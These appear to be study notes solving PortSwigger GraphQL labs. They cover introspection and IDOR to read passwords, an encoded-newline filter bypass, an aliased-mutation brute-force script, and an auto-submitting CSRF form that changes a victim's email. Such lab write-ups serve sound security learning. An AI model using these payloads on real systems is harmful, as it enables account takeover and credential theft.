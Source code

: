 ### Accessing private GraphQL posts

Send the POST /graphql/v1 to repeater. Right click, GraphQL > Set introspection query
Now you know it's vulnerable, find a graphql request to a blog post. 

In the GraphQL tab, set the id to 1 in the variables section, and add "postPassword" to the query:
![[Pasted image 20240731184956.png]]

Send the request, and move the id until you get the password. 

---
### Accidental exposure of private GraphQL fields

Send an introspection query, and the response Right click > GraphQL > Save GraphQL queries to site map

Now in target, site map, open your target, and see the querys. There is a `getUser` that retrieves user and password. Send to repeater, replace the id=0 for a 1. Log in with the credentials.

---
### Finding a hidden GraphQL endpoint

Try to access to a typical GraphQL endpoint such as `/api` and see there is a message "Query not present". 
Append a universal query like this `/api?query=query{__typename}`. And validate there is a GraphQL endpoint. 
Now send an introspection query to that. 

The response says `GraphQL introspection is not allowed, bu the query contained __schema or __type` so append a `%0a` after the word schema, and send it again. Now it works.

Send that to target > GraphQL > Save GraphQL queries to site map, and look for the "getUser". Use the id:3 to find its the ID of carlos.
```text
query {
  getUser(id: 3) {
    id
    username
  }
}
```

Now send the query to delete users, and set the variable id to 3. Solved.

---
### Bypassing GraphQL brute force protections

Try to login, and send that grapql request to repeater, try a few times, and see you're being blocked after some failed attempts.

But you can send something like this to brute force the login:
![[Pasted image 20240801100127.png]]

Use the passwords given by PortSwigger, and the following script:
```python
def generate_graphql_mutation(file_path, username):
    with open(file_path, 'r') as file:
        passwords = file.read().splitlines()
    
    mutation_template = 'mutation login {{\n{}\n}}'
    bruteforce_template = '    bruteforce{}: login(input: {{password: "{}", username: "{}"}}) {{\n        token\n        success\n    }}\n'
    
    mutations = []
    for index, password in enumerate(passwords):
        mutations.append(bruteforce_template.format(index, password, username))
    
    return mutation_template.format('\n'.join(mutations))

# Usage
file_path = 'passwords.txt'
username = 'carlos'
graphql_mutation = generate_graphql_mutation(file_path, username)
print(graphql_mutation)

# Optionally, you can save the output to a file
with open('graphql_mutation.txt', 'w') as output_file:
    output_file.write(graphql_mutation)
```

The password is "michelle".

---
### Performing CSRF exploits over GraphQL

Log in to your account. Change your email. Send the to repeater, change the email again. 
The fact you can do it, means you can reuse the same cookie several times.

Change the requested method twice, so you have now a new Content-Type of `x-www-form-urlencoded`

Use this as a body for that request:
`query=mutation%20changeEmail($input:ChangeEmailInput!){changeEmail(input:$input){email}}&operationName=changeEmail&variables={"input":{"email":"hacker@hacker.com"}}`

And generate CSRF PoC. Paste that HTML in the exploit server.

This is the HTML:
```html
<html>
    <form action="https://0a6000ec03bfe2a681f5c0d600f600ab.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="&#x6d;&#x75;&#x74;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x43;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x49;&#x6e;&#x70;&#x75;&#x74;&#x21;&#x29;&#x7b;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x29;&#x7b;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x7d;&#x7d;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#x7b;&#x22;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x22;&#x3a;&#x7b;&#x22;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x22;&#x3a;&#x22;&#x68;&#x61;&#x63;&#x6b;&#x65;&#x72;&#x32;&#x40;&#x68;&#x61;&#x63;&#x6b;&#x65;&#x72;&#x2e;&#x63;&#x6f;&#x6d;&#x22;&#x7d;&#x7d;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
</html>

```

